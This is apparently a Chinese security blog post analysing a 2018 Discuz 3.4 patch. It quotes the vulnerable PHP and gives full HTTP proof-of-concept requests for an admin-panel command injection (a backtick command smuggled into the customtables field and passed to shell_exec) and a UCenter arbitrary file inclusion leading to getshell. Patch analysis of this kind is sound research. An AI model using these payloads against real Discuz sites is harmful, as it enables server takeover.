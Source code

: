 # discuz3.4补丁更新分析

* 5月29日discuz3.4源码提交了一次更新[https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14](https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14)，其中修复了一个后台任意文件包含漏洞和一个后台命令执行隐患。
下面从代码分析漏洞：

1.后台命令执行隐患(不具备利用条件)
----
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/命令执行1.jpg)
如图所示，问题出在后台数据库备份功能，增加了escapeshellarg()函数来过滤 $tablesstr参数。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/数据库备份.jpg)
/discuz3.4/upload/source/admincp/admincp_db.php
```php
if($operation == 'export') {

    $_SERVER['REQUEST_METHOD'] = 'POST';
    if(!submitcheck('exportsubmit')) {

        #省略

    }
    else {

        DB::query('SET SQL_QUOTE_SHOW_CREATE=0', 'SILENT');

        if(!$_GET['filename'] || !preg_match('/^[\w\_]+$/', $_GET['filename'])) {
            cpmsg('database_export_filename_invalid', '', 'error');
        }

        $time = dgmdate(TIMESTAMP);
        if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') {
            $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
        } elseif($_GET['type'] == 'custom') {
            $tables = array();
            if(empty($_GET['setup'])) {
                $tables = C::t('common_setting')->fetch('custombackup', true);
            } else {
                C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
                $tables = & $_GET['customtables'];####输入可控点
            }
            if( !is_array($tables) || empty($tables)) {
                cpmsg('database_export_custom_invalid', '', 'error');
            }
        }

        #省略

        if($_GET['method'] == 'multivol') {
            #省略
        }
        else {
            $tablesstr = '';
            foreach($tables as $table) {
                $tablesstr .= '"'.$table.'" ';
            }

            require DISCUZ_ROOT . './config/config_global.php';
            list($dbhost, $dbport) = explode(':', $dbhost);
            $query = DB::query("SHOW VARIABLES LIKE 'basedir'");
            list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);

            $dumpfile = addslashes(dirname(dirname(__FILE__))).'/'.$backupfilename.'.sql';
            @unlink($dumpfile);

            $mysqlbin = $mysql_base == '/' ? '' : addslashes($mysql_base).'bin/';

            @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);
```
$_GET['customtables'] >> $tables >> $tablesstr 
参数没有经过过滤、转义直接拼接到shell_exec中可被利用命令执行

利用构造POC：
```
POST /discuz3.4/upload/admin.php?action=db&operation=export&setup=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz-3.4/upload/admin.php?action=db&operation=export
Content-Type: application/x-www-form-urlencoded
Content-Length: 201
Cookie:  略
Connection: close
Upgrade-Insecure-Requests: 1

formhash=40d81b28&scrolltop=&anchor=&type=custom&customtables%5B%5D=`touch /tmp/1.txt`&method=test&sizelimit=2048&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=180608_gJjGo26K&exportsubmit=%E6%8F%90%E4%BA%A4
```
几个注意点：
/discuz3.4/upload/source/class/discuz/discuz_application.php 248
```php 
if($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST)) {
    $_GET = array_merge($_GET, $_POST);#合并键值，用post覆盖get
}
```
* $_GET包含了$_POST的值
* method不能为multivol

然而上面的命令并不能执行成功，当时我有点无语，因为下面的代码有问题，这块功能代码居然是不能用的。
```php
list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);
#DB::$drivertype不存在,根据代码意思应该是$db->drivertype或者DB::$db->drivertype
```
漏洞代码运行到这里的时候会运行不下去，因为DB::$drivertype这个参数根本没定义。
在/discuz3.4/upload/source/class/discuz/discuz_database.php里class discuz_database {} 不存在$drivertype。
为了复现漏洞，我在/discuz3.4/upload/source/class/discuz/discuz_database.php 添加了public static $drivertype;，然后再使用上面的POC成功执行了命令。

2.后台任意文件包含漏洞(ucenter应用管理权限)
----
漏洞存在多处，但是原因都是一样的，就是$apifilename参数未做过滤或转义导致任意文件包含，我选择其中一处分析。
/discuz3.4/upload/uc_server/model/note.php
```php
$apifilename = isset($app['apifilename']) && $app['apifilename'] ? $app['apifilename'] : 'uc.php';
        if($app['extra']['apppath'] &&  @include_once $app['extra']['apppath'].'./api/'.$apifilename) {
```
分析下$apifilename的值从哪里来

/discuz3.4/upload/uc_server/data/cache/apps.php >> /discuz3.4/upload/uc_server/model/base.php init_cache() >> $this->base->cache('apps') >> $app['apifilename']

apps.php的值如下图所示
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/apps.php.jpg)
可通过ucenter的应用管理进行控制
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-192102.jpg)
POC：
```php
POST /discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1&sid=bdb72eMi%2BnWQ0q9oCK46R%2BA80gB%2BQ4ZRCIiuPWiNu2FCVNQbKb%2F2FtI4XRDYgsU9VvGBY07LF2exdg
Content-Type: application/x-www-form-urlencoded
Content-Length: 405
Cookie: 略
Connection: close
Upgrade-Insecure-Requests: 1

sid=87c1Zk21dOZPwMBkwqz%2BmgKKVA%2FrhGZKGqu1CWAP63EzBMLJWaCtv9K1DPs%2B61zf7vEER6usLasOpQ&formhash=c98254e0423cf9af&type=DISCUZX&name=Discuz%21+Board&url=http%3A%2F%2Flocalhost%2Fdiscuz-3.4%2Fupload&extraurl=&ip=&authkey=SfU517M8n8u1scR1T255Gea6G909L2l338E6seAdP7xei3U0yag9J3gfm6iey66b&apppath=..%2F&viewprourl=&apifilename=../phpinfo.txt&tagtemplates=&tagfields=&synlogin=1&recvnote=1&submit=+%E6%8F%90+%E4%BA%A4+
```
* apppath=..%2F 因为不知道绝对路径，输入../会自动补全
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/绝对路径.jpg)
* apifilename= 可以是任意上传的图片等填入相对路径,这里phpinfo.txt是我创建在web根目录的测试文件

POC的包发完以后，访问登陆页面、ucenter首页等多处都包含了指定的文件，达到getshell的目的。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-191327.jpg)
